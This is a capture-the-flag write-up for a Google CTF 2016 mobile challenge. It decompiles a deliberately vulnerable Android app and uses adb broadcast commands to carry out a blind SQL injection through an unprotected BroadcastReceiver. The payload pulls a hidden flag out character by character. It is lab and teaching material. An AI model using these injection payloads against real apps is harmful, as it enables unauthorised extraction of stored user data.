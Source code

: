 # google-ctf-2016 : little-bobby-application-250

**Category:** Mobile
**Points:** 250
**Solves:** 24
**Description:**

Find the vulnerability, develop an exploit, and when you're ready, submit your APK to https://bottle-brush-tree.ctfcompetition.com. Can take up to 15 minutes to return the result.

## Write-up

by [bburky](https://github.com/bburky)

First, using [d2j-dex2jar](https://sourceforge.net/projects/dex2jar/) extract the apk and create a jar:

    $ d2j-dex2jar BobbyApplication_CTF.apk

After opening the jar in [jd-gui](http://jd.benow.ca/), the first thing to notice is that on application startup, the BroadcastReceiver called LoginReceiver is registered. Any application can receive these broadcasts because no permissions are specified. Our exploit application will be able to receive these broadcasts too.

```java
protected void onCreate(Bundle paramBundle) {
    Log.d("Startup", "Bobby's Application is now running");
    super.onCreate(paramBundle);
    paramBundle = new IntentFilter();
    new LocalDatabaseHelper(getApplicationContext());
    paramBundle.addAction("com.bobbytables.ctf.myapplication_INTENT");
    registerReceiver(new LoginReceiver(), paramBundle);
    ...
```

Looking in LoginReceiver, we can see how these broadcasts are handled:

```java
public void onReceive(Context paramContext, Intent paramIntent) {
    Object localObject = paramIntent.getStringExtra("username");
    paramIntent = paramIntent.getStringExtra("password");
    Log.d("Received", (String)localObject + ":" + paramIntent);
    paramIntent = new LocalDatabaseHelper(paramContext).checkLogin((String)localObject, paramIntent);
    localObject = new Intent();
    ((Intent)localObject).setAction("com.bobbytables.ctf.myapplication_OUTPUTINTENT");
    ((Intent)localObject).putExtra("msg", paramIntent);
    paramContext.sendBroadcast((Intent)localObject);
}
```

Apparently this application expects a broadcast with the the action `com.bobbytables.ctf.myapplication_INTENT`, containing two extras `username` and `password`.

Let's install the vulnerable app into the emulator to test it. Install the app and then open logcat. Use the following adb command to test LoginReceiver:

    $ adb shell am broadcast -a com.bobbytables.ctf.myapplication_INTENT -e username admin -e password hunter2

The following lines will appear in logcat:

    05-02 18:58:43.145  2646  2646 D Received: admin:hunter2
    05-02 18:58:43.147  2646  2646 D Username: admin
    05-02 18:58:43.148  2646  2646 D Result  : User does not exist

In LoginReceiver we can see that the result will be also sent out as a permissionless broadcast. Our exploit app will be able to receive it. The message "User does not exist", the result of checkLogin(), will be sent to our app in the broadcast.

Next we look at checkLogin() in LocalDatabaseHelper. We immediately see a SQL injection vulnerability in the rawQuery() call. However our attack will have to be a blind SQL injection because the only results will get are "Incorrect password" when the query is successful, and "User does not exist" when it is not.

```java
public String checkLogin(String paramString1, String paramString2) {
    SQLiteDatabase localSQLiteDatabase = getReadableDatabase();
    Cursor localCursor = localSQLiteDatabase.rawQuery("select password,salt from users where username = \"" + paramString1 + "\"", null);
    Log.d("Username", paramString1);
    if ((localCursor != null) && (localCursor.getCount() > 0)) {
            localCursor.moveToFirst();
            paramString1 = localCursor.getString(0);
            String str = localCursor.getString(1);
            localCursor.close();
            localSQLiteDatabase.close();
        if (Utils.calcHash(paramString2 + str).equals(paramString1)) {
            Log.d("Result", "Logged in");
            return "Logged in";
        }
        Log.d("Result", "Incorrect password");
        return "Incorrect password";
    }
    if (localCursor != null) {
        localCursor.close();
    }
    localSQLiteDatabase.close();
    Log.d("Result", "User does not exist");
    return "User does not exist";
}
```

First, let's check what the database looks like by examining the app's database directly (you need to have registered a user in the app first though):

    $ adb shell 'sqlite3 /data/data/bobbytables.ctf.myapplication/databases/LocalDatabase.db "SELECT * FROM users"'
    1|test|08fdc2c757be2ea1067f0c36d4ca2634|ctf{An injection is all you need to get this flag - 08fdc2c757be2ea1067f0c36d4ca2634}|3107

We will be extracting the `flag` field of the table. We can use SQLite's [substr() function](https://www.sqlite.org/lang_corefunc.html) to extract the flag character by character. The username `" or substr(flag, 1, 1) = "c" --` can be used to check if the first character of the flag is "c". We just need to iterate over the characters of the MD5, only 0-9 and a-f, so this shouldn't be too bad for blind SQLi.

We can test our injection with `am`, checking the first character of the flag:

    $ adb shell 'am broadcast -a com.bobbytables.ctf.myapplication_INTENT -e username "\" or substr(flag, 1, 1) = \"c\" --" -e password hunter2'

Success! In logcat "Incorrect password" is printed, indicating that the query was successful.

To create a full exploit, we need to create our own app, register a BroadcastReceiver for `com.bobbytables.ctf.myapplication_OUTPUTINTENT`, and send broadcast messages to `com.bobbytables.ctf.myapplication_INTENT`. Because there's no interaction with the emulator, we need to start the exploit from our Activity's onCreate() method. We are given the logcat output from the emulator, so we can just log the flag after we find it.

The full source of the exploit Activity is in [ExploitActivity.java](ExploitActivity.java). Create a new hello world app in an Android IDE and replace it's Activity with ExploitActivity to use it.

## Other write-ups and resources

* <https://blog.lse.epita.fr/articles/78-google-capture-the-flag-2016-mobile-category.html>
